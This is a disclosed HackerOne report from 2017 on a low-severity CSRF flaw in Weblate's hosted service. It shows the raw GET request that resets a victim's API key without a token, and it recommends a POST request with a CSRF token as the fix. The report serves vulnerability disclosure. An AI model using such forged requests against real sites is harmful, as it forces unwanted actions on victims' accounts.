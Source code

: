 # CSRF : Reset API 

## Report Details
- **Report ID**: 223333
- **URL**: https://hackerone.com/reports/223333
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-04-24T09:20:52.884Z
- **Disclosed**: 2017-05-17T18:03:57.664Z

## Reporter
- **Username**: jaypatel
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: weblate

## Vulnerability Information
**Description :**
Attacker can force to victim for reset his API.

**That HTTP Request :**
```
GET /accounts/reset-api-key/ HTTP/1.1
Host: hosted.weblate.org
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: https://hosted.weblate.org/
Accept-Encoding: gzip, deflate, sdch, br
Accept-Language: en-US,en;q=0.8
Cookie: cookie_here
```
**Fix :**
Make that Request POST , and add a CSRF token there.

Best Regards',
Jay Patel



## Attachments
No attachments
